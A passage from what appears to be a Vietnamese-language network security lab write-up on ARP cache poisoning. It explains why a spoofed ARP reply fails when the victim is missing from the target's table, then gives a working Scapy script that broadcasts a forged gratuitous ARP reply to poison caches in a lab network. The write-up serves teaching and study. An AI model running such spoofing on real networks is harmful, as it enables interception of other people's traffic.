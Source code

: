 Gói tin 5,6 chính là gói tin được host A gửi đi khi ping tới B, gói 7 là do attacker gửi tới A để thay đổi ARP cache:

![](https://i.imgur.com/jSWqMXs.png)

> **Trường hợp 2: B (victim) chưa có trong ARP table của A (target)**

Đối với trường hợp này, chúng ta sẽ xóa mục B trong ARP table của A trước, sau đó tiến hành gửi gói tin giả như ở trường hợp 1, lưu ý rằng đoạn script vẫn không thay đổi:

![](https://i.imgur.com/Nbk50dY.png)

![](https://i.imgur.com/4PIYdwO.png)

![](https://i.imgur.com/LWzKt3k.png)

> *Kết quả cho thấy không có mục cho host B được thêm vào ARP table của A, việc spoofing thất bại.*

Quan sát kết quả wireshark:

![](https://i.imgur.com/ZeHrrHY.png)

Gói thứ 8 chính là gói reply spoofing, tuy nó được gửi đi thành công nhưng lại không thay đổi được ARP cache ở host A. Đối với ARP reply, spoofing chỉ thành công khi trong ARP table đã có host B hoặc reply này là 1 response cho 1 request của host A. Lí do là vì host A không xác định được nguồn gốc của gói tin, nếu không có request từ host B hoặc không có mục B trong ARP table thì host A sẽ không biết host B là ai? có tồn tại không hay là gói tin giả hoặc sai lệch? Do vậy, host A sẽ loại bỏ các gói tin không rõ nguồn gốc

---
### Task 1.C: Sử dụng Gratuitous message <a name="t1.c"></a>

Trước hết, gratuitous message là 1 loại ARP response, nó được tạo từ 1 node hoặc gateway và gửi đi cho toàn mạng (broadcasting). Loại ARP message này không cần yêu cầu ARP request tương ứng và được sử dụng với 3 mục đích là cập nhật ARP table cho các node, thông báo sự tồn tại của 1 node, loại bỏ các IP trùng lặp

Để thực hiện Cache poisoning với ARP gratuitous, chúng ta compile và chạy đoạn code sau ở máy attacker:

```python=
#!/usr/bin/env python3
from scapy.all import *

attackerMAC = "02:42:0a:09:00:69"
targetIP = "10.9.0.5"
victimIP = "10.9.0.6"

eth = Ether()
arp = ARP()

eth.src = attackerMAC 
eth.dst = "ff:ff:ff:ff:ff:ff"

arp.op = 2 #op = 1 for arp request, op = 2 for arp reply
arp.psrc = victimIP
arp.hwsrc = attackerMAC
arp.pdst = victimIP
arp.hwdst = "ff:ff:ff:ff:ff:ff"

packet = eth/arp

sendp(packet)

```

